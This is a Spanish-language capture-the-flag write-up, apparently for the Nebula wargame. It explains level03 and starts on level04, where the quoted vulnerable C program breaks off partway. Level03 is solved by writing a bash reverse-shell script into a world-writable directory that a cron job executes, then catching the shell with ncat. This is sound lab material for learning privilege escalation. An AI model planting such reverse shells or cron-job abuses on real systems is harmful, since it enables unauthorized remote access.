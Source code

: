 

## Level03

----

Para el level03, tenemos que ir al directorio de */home/flag03* y ahí encontraremos todo lo que necesitamos. Hemos de saber también que existe un cronjob trabajando en esta carpeta, por lo que hay que entender la mecánica de lo que sucede.

----


## Solution

----


Para resolver este nivel, analizamos que existe un script que ejecuta lo que se encuentre en la carpeta que todos podemos escribir. Esto significa que cualquier cosa que deposite sera ejecutado por lo que dejaremos un script que realice invoque una shell reversa:

```
$ printf '#!/bin/bash\nbash -i >& /dev/tcp/127.0.0.1/3001 0>&1' > /home/flag03/writable.d/runme.sh
$ ncat -vnlp 3001
Wait...
# getflag
```

---


## Level04

----


Para este nivel, necesitamos leer un archivo **token**, el cual se encuentra en */home/flag04* bajo la propiedad de flag04. Existe un programa que podemos ejecutar en dicha carpeta, del cual tenemos afortunadamente su código fuente:

----


```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>

int main(int argc, char **argv, char **envp)
{
  char buf[1024];
  int fd, rc;

  if(argc == 1) {
      printf("%s [file to read]\n", argv[0]);
      exit(EXIT_FAILURE);
  }

  if(strstr(argv[1], "token") != NULL) {
      printf("You may not access '%s'\n", argv[1]);
      exit(EXIT_FAILURE);
  }

  fd = open(argv[1], O_RDONLY);
  if(fd == -1) {
```